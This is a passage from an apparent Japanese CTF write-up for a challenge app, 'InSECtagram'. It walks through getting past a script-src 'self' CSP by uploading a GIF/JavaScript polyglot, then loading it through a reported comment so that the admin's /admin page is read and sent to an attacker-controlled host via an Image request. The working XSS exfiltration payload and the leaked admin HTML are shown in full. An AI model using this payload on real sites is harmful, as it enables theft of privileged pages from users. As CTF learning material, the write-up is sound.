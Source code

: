 しかし、`<script>(new Image).src='http://192.168.23.3:8000';</script>` ではアクセスが来ません。HTTP レスポンスヘッダを確認してみると、以下のようなヘッダが付与されていました。

```
Content-Security-Policy:script-src 'self'
```

同一オリジンから読み込む場合にのみ許可されるようです。アップロードした画像を読み込めばよさそうですが、JavaScript のコードとして正しく、かつアップローダに画像として判定される画像の形式はあるのでしょうか。

いろいろ試していると、GIF の判定がゆるゆるで `GIF89a=0;` のような内容でも通してくれることが分かりました。

以下のような内容のファイルをアップロードし、

```javascript
GIF89a=0;

var xhr = new XMLHttpRequest();
xhr.onload = function() {
  if (xhr.readyState === 4) { 
    if (xhr.status === 200) {
      (new Image).src='http://192.168.23.3:8000/?a=' + encodeURIComponent(xhr.responseText);
    }
  }
};
xhr.open('GET', '/admin');
xhr.send(null);
```

`<script src="/photos/34/raw"></script>` というコメントで通報すると admin から見た `/admin` の内容を得ることが出来ました。

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Admin | InSECtagram</title>
  </head>
  <body>
    <nav class="uk-navbar-container uk-margin" uk-navbar>
      <div class="uk-navbar-left">
        <a class="uk-navbar-item" href="/"><span uk-icon="icon:camera"></span>-InSECtagram</a>
        <ul class="uk-navbar-nav">
          <li><a href="/upload"><span class="uk-icon uk-margin-small-right" uk-icon="icon:cloud-upload"></span>Upload</a></li>
        </ul>
      </div>
      <div class="uk-navbar-right" uk-navbar>
        <ul class="uk-navbar-nav">
          <li><a href="/admin"><span class="uk-icon uk-margin-small-right" uk-icon="icon:settings"></span>Admin</a></li>
          <li><a href="/mypage"><span class="uk-icon uk-margin-small-right" uk-icon="icon:user"></span>Mypage</a></li>
          <li><a href="/logout"><span class="uk-icon uk-margin-small-right" uk-icon="icon:sign-out"></span>Logout</a></li>
        </ul>
      </div>
    </nav>
    <div class="content">
      <h2 class="uk-heading-line">Admin</h2>
      <ul class="uk-list uk-link-text">
        <li><a href="/admin/reports">Reports</a></li>
        <li><a href="/admin/logs">Logs</a></li>
        <li><a href="/admin/users">Users</a></li>
      </ul>
    </div>
    <link rel="stylesheet" href="/assets/css/uikit.min.css">
```